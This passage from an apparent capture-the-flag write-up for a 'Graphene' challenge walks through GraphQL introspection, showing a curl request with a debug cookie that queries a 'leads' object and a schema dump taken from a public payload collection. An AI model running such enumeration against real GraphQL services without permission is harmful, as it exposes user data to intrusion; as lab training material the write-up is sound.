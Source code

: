 ```graphql
# Response:
{"__schema": {"queryType": {"fields": [{"name": "user",
		"description": null}, {"name": "leads", "description": null}]}}}
```

Looks like we have two queries, `user` and `leads`. Let's try querying the leads:

```console
root@kali:/media/sf_CTFs/appsec/Graphene# curl --location --request POST 'https://graphene.appsecil.ctf.today/api' \
> --header 'Cookie: debug=1' \
> --header 'Content-Type: application/json' \
> --data-raw '{"query":"{\n  leads {\n    id\n    firstName\n    lastName\n    email\n    gender\n    ipAddress\n    isVip\n  }\n}","variables":{}}' -s |  sed 's/&#34;/"/g' && echo
<!DOCTYPE html>
<html>
<head>
    <title>Debug</title>
</head>
<body>
    <p>Query: {
  leads {
    id
    firstName
    lastName
    email
    gender
    ipAddress
    isVip
  }
}</p>
    <p>Response: {"leads": null}</p>
</body>
</html>
```

Response is null. Is there anything wrong with our query?

Using a larger query from [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/GraphQL%20Injection) ("Enumerate Database Schema via Introspection"), we can dump many more details from the schema. Here's what that query shows about the `leads`:

```graphql
{
    "name":"leads",
    "description":null,
    "args":[
        {
        "name":"limit",
        "description":null,
        "type":{
            "kind":"SCALAR",
            "name":"Int",
            "ofType":null
        },
        "defaultValue":null
        }
    ],
    "type":{
        "kind":"LIST",
        "name":null,
        "ofType":{
        "kind":"OBJECT",
        "name":"Lead",
        "ofType":null
        }
```
